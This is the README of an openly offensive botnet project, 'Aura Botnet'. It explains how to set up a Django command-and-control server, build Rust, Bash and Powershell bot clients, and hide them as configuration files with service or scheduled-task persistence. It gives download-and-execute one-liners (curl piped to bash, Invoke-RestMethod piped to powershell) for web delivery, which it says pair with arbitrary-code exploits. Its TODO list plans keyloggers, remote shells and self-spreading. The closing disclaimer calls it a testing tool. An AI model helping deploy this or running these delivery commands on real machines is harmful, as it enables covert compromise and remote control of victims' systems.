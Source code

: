 # Aura Botnet

C2 Server
---
The botnet's C2 server utilizes the Django framework as the backend.
It is far from the most efficient web server, but this is offset by the
following:
* Django is extremely portable and therefore good for testing/educational
purposes. The server and database are contained within the `django-server`
folder.
* Django includes a very intuitive and powerful admin site that can be used
for managing bots and commands
* The server is only handling simple POST requests and returning text
* Static files should be handled by a separate web server (local or remote) that
excels in serving static files, such as nginx

The admin site located at `http://your_server:django_port/admin` can be
accessed after setting up a superuser (see below).

Database
---
The Django server is currently configured to use a SQLite3 database,
`bots.sqlite3`. The current configuration can be changed in the *settings.py*
file under `django-server/aura`. You may wish to use MySQL, or even PostgreSQL
instead; this easy to do thanks to Django's portable database API.

Bot Clients
---
The primary clients for Windows and Linux are written in Rust. Alternate clients
are written in Bash and Powershell.

The client will gather relevant system information and send it to the C2 server
to register the new bot. Identification is done by initially creating a file
containing random data -- referred to as the *seed* throughout the code -- which
will then be hashed each time the client runs to identify the client and
authenticate with the C2 server. It will then install all the files in the
folder specified in the code, and initialize the system service or schedule a
task with the same privileges that the client was run with. The default settings
have the client and other files masquerading as configuration files.

Getting Started: C2 Server
---
The Docker image can be found [here](https://hub.docker.com/r/watersalesman/aura-c2/).
Follow the instructions below to run the server normally.

To initialize the SQLite3 database, simply change into the `django-server`
directory and run:
```
./manage.py migrate
```
After the database is initialized, create a superuser for the admin site by
running
```
./manage.py createsuperuser
```
More information on configuring database
and the admin site can be found in the following
[tutorial](https://docs.djangoproject.com/en/1.11/intro/tutorial02/)
and [documentation](https://docs.djangoproject.com/en/1.11/ref/databases/).

Finally, run the following to start the server:
```
./runserver.sh
```
`runserver.sh` is just a wrapper around `manage.py runserver` with some default
options that runs the server on port 41450. This can be easily edited or
bypassed altogether.

Geting Started: Bot Clients
---
You can choose whichever client you feel is most appropriate for the platoform
and use case.

For the Rust client, you will need Rust installed on the platform that you wish
to compile for. Unfortunately, there is no simple method of cross-compiling that
I am aware of. Go into the source directory (`client/rust-linux` or
`client/rust-windows`) and run:
```
cargo build --release
```
The binary will be sent to `client/rust-*/target/release/`.

For the Linux C++ client, change into the source directory and run:
```
cmake .
make
```
For the Windows C++ client, you can find various methods of using Cmake on
Windows [here](http://preshing.com/20170511/how-to-build-a-cmake-based-project/).

The Powershell and Bash clients simply need to be executed on the target
machine.

The client executable or script need to be run in the same folder as
any necessary components (systemd services for Linux clients and launcher.vbs
for Powershell) on the target machine, or installed via web delivery (see
below).

Configuring Commands
---

These can easily be managed through the Django shell or admin site. The
client periodically communicate with the specified server using POST
requests to receive a command (default is every 5 minutes). Commands can be set
to run for specific bot groups defined by operating system and user privilege.
This is specified in `django-server/groups.json`. The only reserved group
numbers are `-1`, for priority commands that are run by all bots, and `-2`, for
default commands that are run by all bots only if there is no other command to run;
you can also assign commands to individual bots using the hash of their seed.
Each command can be given a start time and end time. Oneshot commands will only
run once on each bot.

Client Web Delivery
---
The *static* folder can be used to store files to be served by a web server --
preferably an nginx server running on a different port or host as your Django
server. You will need to compile and place the files into the folders, and edit
the index files to reflect any changes like the server name. The simplicity of
executing via web delivery makes it easy to integrate with exploits that run
arbitrary code. An example in bash would be:

```
curl http://static-server-name/welcome/linux/rust | bash
```
In Powershell:
```
Invoke-RestMethod http://static-server-name/welcome/windows/rust | powershell
```

This will run the client with the current privileges, install any necessary
files, and cleanup the downloaded files.

Other Notes
---
Because this is for testing purposes, the C2 server needs to be
hard-coded into client and web delivery files. It is currently set to
*localhost* on all the files. This is because an actual botnet would use something
like a domain generation algorithm (DGA) to sync a stream of changing domains on
the client side with a stream of disposable domains being registered -- or just
really bulletproof hosting like the original Mirai botnet.

The code is also not obfuscated nor is there any effort put toward preventing
reverse engineering; this would defeat the purpose of being a botnet for
testing and demonstrations.

The *killswitch* folder contains scripts for easy client removal when testing
on your devices.

TODO
---
- Merge Linux and Windows C++ clients
- Cleanup code styling and optimize Django views
- Add support for "modules" to be run easily on arbitrary clients. E.g.: Start
an interactive shell, grab arbitrary system files, install keylogger, spread
using various exploits etc.
- Create clients for mobile devices
- Implement compatibility with running C2 server as a hidden Tor service

<h2>This repo is for testing purposes only. This is not meant to be
implemented in any real world applications except for demonstrations.</h2>
